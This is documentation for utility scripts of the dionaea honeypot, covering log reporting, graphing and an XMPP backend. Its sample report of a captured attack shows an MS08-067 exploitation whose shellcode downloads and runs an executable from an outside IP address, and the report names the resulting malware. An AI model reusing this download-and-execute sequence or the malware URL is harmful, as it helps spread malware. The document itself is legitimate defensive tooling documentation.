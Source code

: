 ..
    This file is part of the dionaea honeypot

    SPDX-FileCopyrightText: 2011-2012 Markus Koetter
    SPDX-FileCopyrightText: 2015-2017 PhiBo (DinoTools)

    SPDX-License-Identifier: GPL-2.0-or-later

Utils
=====

Dionaea ships with some utils, as these utils are written in python and
rely on the python3 interpreter dionaea requires to operate, this
software can be found in modules/python/utils.


          readlogsqltree <#readlogsqltree> -
          modules/python/readlogsqltree.py

readlogsqltree is a python3 script which queries the logsql sqlite
database for attacks, and prints out all related information for every
attack.
This is an example for an attack, you get the vulnerability exploited, the time, the attacker, information about the shellcode, the file offered for download, and even the virustotal report for the file.

.. code-block:: text

    2010-10-07 20:37:27
      connection 483256 smbd tcp accept 10.0.1.11:445 <- 93.177.176.190:47650 (483256 None)
       dcerpc bind: uuid '4b324fc8-1670-01d3-1278-5a47bf6ee188' (SRVSVC) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid '7d705026-884d-af82-7b3d-961deaeb179a' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid '7f4fdfe9-2be7-4d6b-a5d4-aa3c831503a1' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid '8b52c8fd-cc85-3a74-8b15-29e030cdac16' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid '9acbde5b-25e1-7283-1f10-a3a292e73676' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid '9f7e2197-9e40-bec9-d7eb-a4b0f137fe95' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid 'a71e0ebe-6154-e021-9104-5ae423e682d0' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid 'b3332384-081f-0e95-2c4a-302cc3080783' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid 'c0cdf474-2d09-f37f-beb8-73350c065268' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid 'd89a50ad-b919-f35c-1c99-4153ad1e6075' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc bind: uuid 'ea256ce5-8ae1-c21b-4a17-568829eec306' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
       dcerpc request: uuid '4b324fc8-1670-01d3-1278-5a47bf6ee188' (SRVSVC) opnum 31 (NetPathCanonicalize (MS08-67))
       profile: [{'return': '0x7df20000', 'args': ['urlmon'], 'call': 'LoadLibraryA'}, {'return': '0', 'args': ['', 'http://208.53.183.158/m.exe', '60.exe', '0', '0'], 'call': 'URLDownloadToFile'}, {'return': '32', 'args': ['60.exe', '895'], 'call': 'WinExec'}, {'return': '0', 'args': ['-1'], 'call': 'Sleep'}]
       offer: http://208.53.183.158/m.exe
       download: 3eab379ddac7d80d3e38399fd273ddd4 http://208.53.183.158/m.exe
         virustotal 2010-10-07 04:59:07 5/38 (13%) http://www.virustotal.com/file-scan/report.html?id=265e39edcba9d9004451601544e625f2d3d04f837d0aaf1f8464cb2c819c1939-1286420347
           names 'High Risk Fraudulent Security Program' 'Suspicious file' 'Trojan.DownLoader1.27100' 'Worm.Win32.Rimecud' 'Worm:Win32/Rimecud.B'


To create such report for your own honeypots activities for the last 24
hours run:


./readlogsqltree.py  -t $(date '+%s')-24*3600 /opt/dionaea/var/dionaea/logsql.sqlite


          gnuplotsql <#gnuplotsql> - modules/python/gnuplotsql.py

gnuplotsql is a very slow python3 script which runs some queries on the
logsql <#logsql> sqlite database and creates graphs with gnuplot of the
data, stores them on disk and creates an index of the data. The images
are per protocol and look like this: Overview for dionaea smbd.
Here <gnuplotsql> is how the whole thing looks like.
To create such images of your own data, run:


./gnuplotsql.py -d /opt/dionaea/var/dionaea/logsql.sqlite -p smbd -p epmapper -p mssqld -p httpd -p ftpd

The blog got something on gnuplotsql as well:

  * 2010-12-05 sudden death <http://carnivore.it/2010/12/05/sudden_death>
  * 2010-10-01 Infosanity's Blog: gnuplotsql.py
    <http://blog.infosanity.co.uk/2010/10/01/gnuplotsql-py/>
  * 2010-09-19 gnuplotsql <http://carnivore.it/2010/09/19/gnuplotsql>


          pg_backend <#pg_backend> - modules/python/xmpp/pg_backend.py

pg_backend is the backend for logxmpp <#logxmpp>, currently it is a
python2.x script which uses pyxmpp to access the xmpp service. It parses
the messages received and can store the events in a postgres database
and the received files on disk. pg_backend requires an xmpp account.
/without db/


./pg_backend.py -U USER@sensors.carnivore.it -P XMPPPASS -M dionaea.sensors.carnivore.it -C anon-files -C anon-events -f /tmp/


/with db/ create database

psql ...

start backend


./pg_backend.py -U USER@sensors.carnivore.it -P XMPPPASS -M dionaea.sensors.carnivore.it -C anon-files -C anon-events -s DBHOST -u DBUSER -d xmpp -p DBPASS -f /tmp/
